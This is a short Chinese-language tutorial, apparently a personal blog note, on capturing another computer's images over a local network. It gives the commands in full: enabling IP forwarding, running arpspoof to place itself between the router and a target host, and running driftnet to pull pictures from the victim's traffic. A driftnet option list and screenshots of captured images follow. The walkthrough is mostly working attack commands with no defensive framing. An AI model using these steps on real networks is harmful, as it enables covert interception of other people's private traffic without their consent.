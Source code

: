 > ### 其实这个也是非常简单，只有三句命令就可以实现。没啥技术难度，不过只能在局域网内实现。
>
> ##### 1、更改转发模式
>
> ```
> echo 1 > /proc/sys/net/ipv4/ip_forward
> ```
>
> <img src="https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/007S8ZIlly1gf2q4h2n18j30vv0u07wh.jpg" alt="image-20200523215235878" style="zoom:67%;" />
>
> ##### 2、arp攻击             
>
> ```
>  arpspoof -i eth0 -t 192.168.1.1  192.168.1.100
>  
>   arpspoof -i eth0 -t 192.168.123.1  192.168.123.119
>  
> #arpspoof -i eth0 -t [路由器ip] [目标主机ip]
> ```
>
> > `192.168.123.1`是我路由器地址，`192.168.123.116`是我笔记本的地址
>
> <img src="https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/007S8ZIlly1gf2pnalgspj30vq0u01ky.jpg" alt="image-20200523213603947" style="zoom:50%;" />
>
> ##### 3、数据还原分析      
>
> ```
> # driftnet -i eth0
> //eth0是网卡
> ```
>
> <img src="https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/007S8ZIlly1gf2proex9tj30u00vy7wh.jpg" alt="image-20200523214018000" style="zoom:50%;" />
>
> ###### 参数命令
>
> > ` -b ` ：捕获到新的图片时发出嘟嘟声
> >
> > ` -i interface` ：选择监听接口
> >
> > `-f file `：读取一个指定pcap数据包中的图片
> >
> > ` -p` ：不让所监听的接口使用混杂模式
> >
> > ` -a` ：后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
> >
> > ` -m number` ：指定保存图片数的数目
> >
> > `-d directory` ：指定保存图片的路径
> >
> > `-x prefix `：指定保存图片的前缀名
>
> ### 结果：
>
> <img src="https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/007S8ZIlly1gf2pzieux9j31400u0qv8.jpg" alt="41590241281_.pic_hd" style="zoom:50%;" />
>
> > 左边电脑是被攻击者，右边窗口中的图片就是截取被攻击者网络数据包中抓取的图片
>
> <img src="https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/007S8ZIlly1gf2q2mw4k2j30u00v5qv5.jpg" alt="image-20200523215050019" style="zoom:67%;" />
>
> > 截取的所有照片都会在文件夹中显示